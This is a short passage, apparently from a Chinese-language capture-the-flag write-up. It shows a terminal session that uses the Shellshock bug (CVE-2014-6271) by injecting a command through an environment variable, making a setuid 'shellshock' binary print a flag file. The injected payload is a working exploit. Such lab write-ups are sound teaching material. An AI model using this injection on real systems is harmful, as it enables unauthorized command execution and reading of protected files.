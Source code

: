 确保了这一点. 
所以可以这样攻击: 
```text
shellshock@ubuntu:~$ env x='() { :;}; /bin/cat flag' ./shellshock
only if I knew CVE-2014-6271 ten years ago..!!
Segmentation fault
shellshock@ubuntu:~$
```

